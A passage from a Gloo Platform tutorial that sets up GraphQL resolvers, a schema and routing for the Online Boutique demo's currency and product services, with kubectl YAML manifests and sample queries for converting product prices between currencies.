apiVersion: apimanagement.gloo.solo.io/v2
kind: GraphQLResolverMap
metadata:
  name: currencies
  namespace: online-boutique
spec:
  types:
    Query:
      fields:
        GetCurrencies:
          resolvers:
          - restResolver:
              destinations:
              - port:
                  number: 7005
                ref:
                  cluster: cluster-1
                  name: currencyservice
                  namespace: online-boutique
              request:
                headers:
                  :method:
                    json: GET
                  :path:
                    json: /currencies
        ConvertCurrency:
          resolvers:
          - restResolver:
              destinations:
              - port:
                  number: 7005
                ref:
                  cluster: cluster-1
                  name: currencyservice
                  namespace: online-boutique
              request:
                headers:
                  :method:
                    json: POST
                  :path:
                    json: /currencies/convert
EOF
```

3. Create the GraphQLSchema object and add routing for this API.
```yaml
kubectl apply -f -<<EOF
apiVersion: apimanagement.gloo.solo.io/v2
kind: GraphQLSchema
metadata:
  name: currencies
  namespace: online-boutique
spec:
  resolved:
    options: 
      enableIntrospection: true
    resolverMapRefs:
    - name: currencies
      namespace: online-boutique
      clusterName: cluster-1
  schemaRef:
    name: currencies
    namespace: online-boutique
    clusterName: cluster-1
---
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: graphql-currencies
  namespace: online-boutique
spec:
  weight: 150
  workloadSelectors: []
  http:
  - name: currencies
    graphql:
      options:
        logSensitiveInfo: true
      schema:
        name: currencies
        namespace: online-boutique
        clusterName: cluster-1
    matchers:
    - uri:
        prefix: /graphql-currencies
EOF
```

5. Test the query in the Gloo Platform APIs UI

* Get list of currencies

```graphql
query MyQuery {
  GetCurrencies {
    currency_codes
  }
}
```

* Convert USD to EUR
```graphql
query ConvertCurrency {
  ConvertCurrency(
    request: {from: {currency_code: "USD", nanos: 0, units: 10}, to_code: "EUR"}
  ) {
    nanos
    currency_code
    units
  }
}
```

6. Having the client convert all the prices could put a lot of strain on the network and client. Instead we can add a new resolver called `price` that will tell Gloo Platform to convert it and return the response. First a new field needs to be added to the query. 

* Update the API to include a new field `price` that will be in the desired currency. `price(currency_code: String): Price`
```yaml
kubectl apply -f -<<EOF
apiVersion: apimanagement.gloo.solo.io/v2
kind: ApiDoc
metadata:
  name: products
  namespace: online-boutique
spec:
  graphql:
    schemaDefinition: |-
      type Price { currency_code: String units: String nanos: Int }
      
      type Product { 
        id: String
        name: String
        description: String
        picture: String
        categories: [String]
        price_usd: Price
        price(currency_code: String): Price
      }

      type ProductList { products: [Product] }

      type Query {
        ListProducts: ProductList
        GetProduct(id: String): Product
      }
EOF
```

7. `price` currently does not resolve to anything. We will create a new resolver for price that feeds the USD currency to the currency service and convert it to the desired currency. 

* Update the resolver map and add a resolver for the `price` field
```yaml
kubectl apply -f -<<EOF
apiVersion: apimanagement.gloo.solo.io/v2
kind: GraphQLResolverMap
metadata:
  name: products
  namespace: online-boutique
spec:
  types:
    Product:
      fields:
        ## Add a resolver for price 
        price:
          resolvers:
          - restResolver:
              destinations:
              - port:
                  number: 7005
                ref:
                  cluster: cluster-1
                  name: currencyservice
                  namespace: online-boutique
              request:
                headers:
                  :method:
                    json: POST
                  :path:
                    json: /currencies/convert
                # Use the USD price and a new curency as input
                body:
                  jq: '{from: .parentProduct.price_usd, to_code: .currencyCodeVar}'
          variables:
            parentProduct: # parent product reference
              graphqlParent: {} # Grab the Product object
            currencyCodeVar: # GraphQL currencyCode variable
              graphqlArg: "currency_code"
    Query:
      fields:
        ListProducts:
          resolvers:
          - restResolver:
              destinations:
              - port:
                  number: 3555
                ref:
                  cluster: cluster-1
                  name: productcatalogservice
                  namespace: online-boutique
              request:
                headers:
                  :method:
                    json: GET
                  :path:
                    json: /products
        GetProduct:
          variables:
            productVar:
              graphqlArg: id
            resolverResultVar:
              resolverResult: {}
          resolvers:
          - restResolver:
              destinations:
              - port:
                  number: 3555
                ref:
                  cluster: cluster-1
                  name: productcatalogservice
                  namespace: online-boutique
              request:
                headers:
                  :method:
                    json: GET
                  :path:
                    jq: '"/products/id/" + (.productVar | tostring)'
EOF
```

8. Go to the Gloo Portal UI and update the query to include this new price. The below example will convert the USD price to EUR
```graphql
query CustomResolver {
  GetProduct(id: "OLJCESPC7Z") {
    categories
    description
    id
    name
    picture
    price_usd {
      currency_code
      nanos
      units
    }
    price(currency_code: "EUR") {
      currency_code
      nanos
      units
    }
  }
```

9. Using `aliases` you can convert the currency to multiple denominations at the same time
```graphql
query UsingAliases {
  GetProduct(id: "OLJCESPC7Z") {
    categories
    description
    id
    name
    picture
    price_usd {
      currency_code
      nanos
      units
    }
    eur:price(currency_code: "EUR") {
      currency_code
      nanos
      units
    }
    inr:price(currency_code: "INR") {
      currency_code
      nanos
      units
    }
  }
```